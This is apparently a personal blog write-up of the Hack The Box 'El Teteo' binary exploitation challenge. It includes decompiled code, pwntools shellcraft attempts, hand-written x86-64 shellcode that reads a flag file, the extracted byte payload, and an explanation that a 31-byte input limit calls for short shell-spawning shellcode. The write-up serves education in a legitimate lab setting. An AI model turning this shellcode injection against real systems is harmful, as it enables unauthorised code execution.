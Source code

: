 ```yaml
---
title: Binary Exploitation Writeup - El Teteo
published: true
date: 2025-02-08 00:00:00 +/-0000
categories: [general,ctf]
tags: [ctf,htb,binexp,binary exploitation,reverse engineering]     # TAG names should always be lowercase
image:
    path: /assets/images/malware.jpg
---
```


# HTB - El Teteo

This was a delightful dip back into the domain of shellcode. Rated "Very Easy" by Hack The Box, this `pwn` binary *could* have taken a few hours to solve, but took me a few days to fully wrap my mind around.

This challenge is shipped without any source code, so we're meant to both reverse engineer the binary and develop an exploit for it. Our first job is to understand how it works. If we run the `el_teteo` binary from the command line, we can see a slew of colorized output making some ASCII art:

![alt text](/assets/images/elteteo.png)

Opening the challenge in `ghidra` shows a slew of `rand()` calls contributing to the colorization output. At the bottom, however we can see the code responsible for the user input:

```c
  //All of the rand() calls come before this bit
  printstr("[!] I will do whatever you want, nice or naughty..\n\n> ");
  local_68 = 0;
  local_60 = 0;
  local_58 = 0;
  local_50 = 0;
  read(0,&local_68,0x1f);
  (*(code *)&local_68)();
  if (local_40 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
```

There's a couple of things here worth noting. First this line: `(*(code *)&local_68)();` What is it doing?

This code is performing an indirect function call through a pointer:

* `local_68` is the variable that we `read()` to; `&local_68` is the pointer to the variable.
* `(code *)` is casting the address to be of a [function pointer type](https://www.gnu.org/software/c-intro-and-ref/manual/html_node/Declaring-Function-Pointers.html?form=MG0AV3).
* The outer asterisk dereferences the cast pointer, and the parantheses adjacent `()` calls the function.

All told, this is setting up our input to run whatever [shellcode](https://www.exploit-db.com/docs/english/13019-shell-code-for-beginners.pdf) we pass to it as input.

Now - I'll admit - it's been a minute since I dabbled with shellcode, so I had to refresh myself on quite a bit. In brief, shellcode amounts to some raw assembly instructions (as bytes) that we read into the running process to execute (vs. say ROP gadgets or function calls). I'm comfortable with x86 assembly, so that wasn't too bad, but I *was* lacking familiarity with the tools. The first one I reached for was `shellcraft`.

## shellcraft

```python
context.update(arch='amd64', os='linux')
payload = asm(shellcraft.amd64.linux.cat('./flag.txt'))
```

So this was my first attempt at crafting shellcode (spoiler: it didn't work). Shellcraft can be evoked both within `pwntools` and without along the commandline; below is an example of how we can do the above like so.

![alt text](/assets/images/shellcraft.png)

What I found however was that the shellcode would initiate, then fail to execute fully time and time again. It was maddening. I thought initially it was some [bad bytes](https://youtu.be/7ob-6Wg1JRk?si=9ydijnLf53QNRjSx) that `read()` didn't like, but that didn't end up being the case.

Eventually, a couple of things lined-up that lent to an epiphany. First, I tried creating my own distinct shellcode like so:

```assembly
section .text
    global _start

_start:
    ; Push "flag.txt" onto stack (null-terminated)
    xor rax, rax
    push rax
    mov rbx, 0x7478742e67616c66  ; "flag.txt"
    push rbx
    mov rdi, rsp                 ; Pointer to filename

    ; Open file (sys_open)
    xor rsi, rsi                 ; O_RDONLY = 0
    xor rdx, rdx
    mov al, 2                    ; syscall number for open()
    syscall

    ; Read file (sys_read)
    mov rdi, rax                 ; File descriptor
    mov rsi, rsp                 ; Use stack as buffer
    mov rdx, 100                 ; Read up to 100 bytes
    xor rax, rax                 ; syscall number for read()
    syscall

    ; Write to stdout (sys_write)
    mov rdi, 1                    ; stdout file descriptor
    mov rdx, rax                   ; Number of bytes read
    mov al, 1                      ; syscall number for write()
    syscall

    ; Exit (sys_exit)
    xor rdi, rdi
    mov al, 60                     ; syscall number for exit()
    syscall

```

The above can be compiled and ran like a charm:

```bash
nasm -felf64 shellcode.asm -o shellcode.o
ld shellcode.o -o shellcode
./shellcode
```

Since I knew that worked, I tried dumping the bytes like so:

```bash
objdump -d shellcode | grep '[0-9a-f]:' | grep -v 'file' | cut -f2 -d: | cut -f1-6 -d ' '| tr -s ' '| tr '\t' ' '| sed 's/ $//g' | sed 's/ /\\x/g' | paste -d '' -s | sed 's/^/"/' | sed 's/$/"/g'
```

This yielded the following bytestring, which I could include in my exploit script:

`payload += b"\x48\x31\xc0\x50\x48\xbb\x66\x6c\x61\x67\x74\x78\x74\x53\x48\x89\xe7\x48\x31\xf6\x48\x31\xd2\xb0\x02\x0f\x05\x48\x89\xc7\x48\x89\xe6\xba\x64\x00\x00\x00\x48\x31\xc0\x0f\x05\xbf\x01\x00\x00\x00\x48\x89\xc2\xb0\x01\x0f\x05\x48\x31\xff\xb0\x3c\x0f\x05"`

For readability, I dumped the hex running `objdump -d shellcode`:

![alt text](/assets/images/shellcraft-objdump.png)

You can see under `<_start>` the column of bytes mapping to the above bytestring. With the shellcode as a known good, I tried passing the bytes directly and they STILL were getting cut-off.

![alt text](/assets/images/elteteo-pwndbg.png)

If the above output doesn't make sense, it's a screenshot of `GDB` running with the `pwndbg` plugin. I've captured the state at which the shellcode has just started. In the topmost panel, we can see the disassembled shellcode and - most notably - observe that the bytes following the `syscall` just...vanish. This is most evident in the `hexdump` call, where there's quite literally nothing but null bytes (contrary to our above output from `objdump -d shellcode`).

## Solution

It turns out that the solution had been staring me in the face the whole time. Looking back at the decompiled code from `ghidra`, we could see:

`read(0,&local_68,0x1f);`

The third parameter in `read()` dictates *how many* bytes are read in. THAT'S what was handcuffing me this whole time. The solution then was to be as brief as possible in the number of bytes used in our shellcode. For that, we shouldn't look to read out the flag directly (which would involve including the bytes of the filename, read/write/close ops, etc.), but instead to open a shell. There's a number of examples for this, but the one we might reach for comes from [shell-storm.org](https://shell-storm.org/shellcode/files/shellcode-806.html).

> I would note that this shell-storm shellcode happens to also be the official solution endorsed by Hack The Box, much to my frustration.
{: .prompt-tip }

## Learning Outcomes

* This was a great exercise to refresh on a variety of ways to produce shellcode.
* This exercise proved *again* how important it is to conduct a thorough analysis of the source code *first*. Had I caught detail from `read()` early on, I'd have been spared a considerable amount of time spent researching.
